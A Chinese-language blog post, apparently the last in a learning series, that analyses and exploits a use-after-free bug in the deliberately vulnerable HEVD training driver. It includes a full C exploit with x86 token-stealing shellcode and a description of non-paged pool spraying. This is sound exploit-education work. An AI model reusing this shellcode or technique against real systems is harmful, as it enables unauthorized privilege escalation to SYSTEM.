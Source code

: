 ## 0x00 前言
这篇就是 HEVD 系列的最后一篇了，有些话我放在结尾说吧。

本篇的内容为 Use After Free 漏洞分析利用。

## 0x01 Use After Free 漏洞分析
按套路我们先打开 UseAfterFreeNonPagedPool.c 文件，这个文件代码相对之前做的稍微长一点，但其实也不算长，毕竟就算是 wrk 的文件也动不动就是好几千行。

这里我就不解释源码了，大家认真阅读一下就可以知道。

可以看到，漏洞发生在 Free 函数中

![alt 1](images/useAfterFree/1.jpg)

当我们用 Alloc 函数在非换页池中分配完空间并使 g_UseAfterFreeObjectNonPagedPool 指向这段空间后，在 Free 函数的时候只释放了这段非换页池空间但并没有将 g_UseAfterFreeObjectNonPagedPool 指针置 NULL。

再看到 UseUaFObjectNonPagedPool 函数中，若 g_UseAfterFreeObjectNonPagedPool 不为 NULL 将执行 g_UseAfterFreeObjectNonPagedPool->Callback()

那么利用就很清晰了，我们只需要
> 1. 利用 Alloc 函数分配空间并使 g_UseAfterFreeObjectNonPagedPool 指向该段空间
> 2. 调用 Free 函数释放这段空间，但 g_UseAfterFreeObjectNonPagedPool 仍然指向该空间
> 3. 调用 AllocFake 来使页面变脏，使 g_UseAfterFreeObjectNonPagedPool -> Callback 的位置变为我们 shellcode 的地址
> 4. 调用 UseUaFObjectNonPagedPool 触发 g_UseAfterFreeObjectNonPagedPool->Callback() 来执行我们的 shellcode

## 0x02 Use After Free 漏洞利用
这里有个问题就是，Free 函数释放掉的 Alloc 函数分配的空间跟之后 AllocFake 分配的空间是同一块吗？（注意到 Alloc 和 AllocFake 申请的空间大小是相等的）

这就涉及到 Windows 的内存管理算法了。其实你释放掉一块空间后立马又申请一块大小相等的空间内存管理器是倾向于分配同一块空间给你的。

所以我们只需要这么一段代码就能提权了

```c
// useAfterFree.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>

#define UseUafObject 0x222017
#define	AllocateUafObject 0x222013
#define FreeUafObject 0x22201b
#define AllocateFakeUafObject 0x22201f

typedef struct _FAKE_OBJECT_NON_PAGED_POOL
{
	char Buffer[0x58];
} FakeObject, *PFakeObject;

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
	//"\xC2\x10\x00"                  // ret 16
};

int main()
{
	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	PFakeObject pfakeObject = (PFakeObject) malloc(sizeof(FakeObject));
	memset(pfakeObject, '\x42', sizeof(FakeObject));

	*(PDWORD)pfakeObject = (DWORD)ptr;

	int noUseBuf = 0x1;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DWORD lpBytesReturned = 0;
	DeviceIoControl(hevDevice, AllocateUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);
	DeviceIoControl(hevDevice, FreeUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);
	DeviceIoControl(hevDevice, AllocateFakeUafObject, pfakeObject, sizeof(FakeObject), NULL, 0, &lpBytesReturned, NULL);

	DeviceIoControl(hevDevice, UseUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

    return 0;
}

```
运行起来下个断点看看

![alt 2](images/useAfterFree/2.jpg)

可以看到，Alloc 和 AllocFake 申请的非换页池的基址是一模一样的。

到这里其实已经解完了。解完之后我又想看看别的师傅是怎么做的，然后我就熟练地打开了 [rookit 师傅的博客](https://rootkits.xyz/blog/2018/04/kernel-use-after-free/)

可以看到他的方法和我是不一样的。虽然在这里是没必要用这个方法的，但是若 Alloc 和 AllocFake 分配的空间基址不同呢，比如说两块空间不一样大的情况。

还记得我们在池溢出一章中用到的池喷射吗？这里使用的是 IoCompletionReserve 对象，因为 IoCompletionReserve 在非换页池中的大小正好是 0x60。（pool header + 0x58 = 0x60） IoCompletionReserve 对象可以通过 NtAllocateReserveObject 函数来获得。

就像我们在池溢出一章中所做的一样，先用 10000 个 IoCompletionReserve 对象来把非换页池中的碎片填满，就算之后还有碎片的存在也放不下我们 0x60 个字节的 Alloc 对象。然后可以认为之后分配的 5000 个 IoCompletionReserve 对象是连续的，在中间每隔一个 IoCompletionReserve 对象挖出一个 0x60 个字节的洞。然后调用 Alloc 函数，可以认为 Alloc 函数分配的空间是我们刚刚挖出的其中一个洞。释放掉 Alloc 对象之后用 AllocFake 对象填满所有挖出来的洞，那么 g_UseAfterFreeObjectNonPagedPool 指针一定是指向我们的 shellcode 的，最后调用函数 UseUaFObjectNonPagedPool 触发漏洞执行 shellcode 就好了。执行完 shellcode 之后记得回收我们刚刚分配的所有空间。

到这里也可以提权成功了。

## 0x03 结束语
好了，至此 HEVD 项目的学习就告一段落了。

非常感谢该项目的提供者。HEVD 确实是一个适合学习、适合入门的项目，我在这些天的过程中确实学到了很多。

之后一段时间打算着手于 CVE 漏洞的复现，也就是将漏洞的分析利用从学习环境挪到真实环境下了，将平台从 x86 扩展到 x64 环境下。

最后，看看自己有没有那个水平走上挖洞的路了。

： )

---

<p align='right'>2019.9.7</p>

